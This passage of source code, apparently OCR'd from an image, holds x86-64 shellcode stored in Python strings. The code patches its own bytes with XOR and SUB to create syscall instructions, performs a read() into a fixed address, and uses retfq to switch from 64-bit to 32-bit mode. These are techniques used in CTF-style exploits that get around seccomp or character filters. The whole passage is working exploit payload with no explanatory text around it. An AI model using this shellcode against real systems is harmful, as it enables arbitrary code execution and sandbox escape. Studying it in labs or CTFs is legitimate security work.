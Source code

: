 ```python
pop rcx
xor byte ptr[rax+0x32],cl

push 0x22 /*set rcx*/
pop rcx

push 0x40/*set rax*/
pop rax
xor al,0x49
'''
shellcode_read = '''
/*read(0,0x40404040,0x70)*/

push 0x40404040 /*set rsi*/
pop rsi

push 0x40 /*set rdi*/
pop rax
xor al,0x40
push rax
pop rdi

xor al,0x40 /*set rdx*/
push 0x70
pop rdx

/*syscall*/
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x57],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x58],cl

push rdx /*set rax*/
pop rax
xor al,0x70
'''

shellcode_retfq = '''
/*mode_64 -> mode_32*/
push rbx
pop rax

xor al,0x40

push 0x72
pop rcx
xor byte ptr[rax+0x40],cl
push 0x68
pop rcx
xor byte ptr[rax+0x40],cl
push 0x47
pop rcx
sub byte ptr[rax+0x41],cl
push 0x48
pop rcx
sub byte ptr[rax+0x41],cl
push rdi
push rdi
push 0x23
```
